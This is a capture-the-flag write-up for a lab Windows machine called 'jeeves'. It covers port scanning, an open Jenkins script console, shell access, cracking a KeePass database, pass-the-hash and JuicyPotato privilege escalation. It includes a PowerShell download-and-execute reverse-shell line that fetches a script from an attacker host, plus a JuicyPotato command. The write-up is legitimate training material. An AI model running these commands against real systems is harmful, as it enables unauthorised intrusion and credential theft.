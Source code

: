 # jeeves



## nmap



PORT      STATE SERVICE                                                                                                                                                  
80/tcp    open  http                                                                                                                                                     
135/tcp   open  msrpc                                                                                                                                                    
445/tcp   open  microsoft-ds                                                                                                                                             
50000/tcp open  ibm-db2 



## httpenumeration



- nothing interesting was there on port 80 
- we saw a image but its a rabbit-hole
- enumerating port 50000 we find a interesting directory

![image-20200901201822464](jeeves.assets/image-20200901201822464.png)



-  we found a open jenkins console 
- this can lead to command execution as jenkins allows us to execute command

![image-20200901202241631](jeeves.assets/image-20200901202241631.png)



## shell

- we got shell by executing command in script console

![image-20200901213203069](jeeves.assets/image-20200901213203069.png)



- we got a keepass database

![image-20200901213244868](jeeves.assets/image-20200901213244868.png)

- another way of getting shell

```powershell
cmd = " powershell iex(new-object net.webclient).downloadstring('http://10.10.14.37:8000/rev.ps1') "
cmd.execute()
```



![image-20200901221515894](jeeves.assets/image-20200901221515894.png)



- and cracked it with john

![image-20200901213405840](jeeves.assets/image-20200901213405840.png)



## post

- we got a NTLM hash which we used for pass the hash attack

![image-20200901213504161](jeeves.assets/image-20200901213504161.png)

- alternate datastream

![image-20200901213803104](jeeves.assets/image-20200901213803104.png)



#### 2nd method of privesc

- we will juicy potato as we have SeImpersonatePrivilege

![image-20200901214015512](jeeves.assets/image-20200901214015512.png)



```
.\JuicyPotato -l 4445 -p .\shell.bat -t *
```

- we will create a share a try to execute a reverse shell with the arguments in juicy potato

![image-20200901215654421](jeeves.assets/image-20200901215654421.png)



- created a bat file with powershell command and got the shell![image-20200901215728672](jeeves.assets/image-20200901215728672.png)



- we can also use pth-winexe for pass the hash

![image-20200901220257584](jeeves.assets/image-20200901220257584.png)